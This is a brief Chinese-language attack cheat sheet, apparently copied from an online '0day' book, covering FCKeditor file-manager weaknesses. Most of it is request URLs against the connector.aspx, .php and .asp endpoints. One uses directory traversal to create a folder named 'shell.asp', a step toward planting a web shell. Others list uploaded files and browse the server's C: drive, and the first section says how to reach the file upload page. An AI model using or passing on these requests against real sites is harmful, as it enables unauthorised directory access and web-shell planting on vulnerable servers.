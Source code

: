 # 1、FCKeditor/editor/fckeditor.html

> 原文：[http://book.iwonder.run/0day/FCKeditor/4.html](http://book.iwonder.run/0day/FCKeditor/4.html)

FCKeditor/editor/fckeditor.html 不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页，可以查看已经上传的文件。

# 2、根据 xml 返回信息查看网站目录

```
http://www.-sec.org/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp 
```

# 3、获取当前文件夹

```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/ 
```

# 4、游览 c 盘

```
/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=c:/ 
```

